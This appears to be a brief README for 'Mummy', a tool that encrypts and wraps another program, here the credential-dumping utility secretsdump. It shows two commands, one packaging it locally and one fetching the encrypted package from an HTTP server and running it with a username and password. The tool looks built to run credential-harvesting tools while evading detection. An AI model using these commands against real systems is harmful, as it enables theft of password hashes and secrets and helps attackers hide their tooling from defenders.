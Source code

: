 # Mummy
## Wrap script example (local):
```
python.exe .\wrap.py local secretsdump 123 -o C:/Temp/secretsdump_enc.zip --arguments "test:'P@ssw0rd'@127.0.0.1 -debug"
```

## Remote:
```
python.exe .\wrap.py remote http://127.0.0.1:8080/secretsdump_enc.zip 123 --arguments "test:'P@ssw0rd'@127.0.0.1 -debug"
```
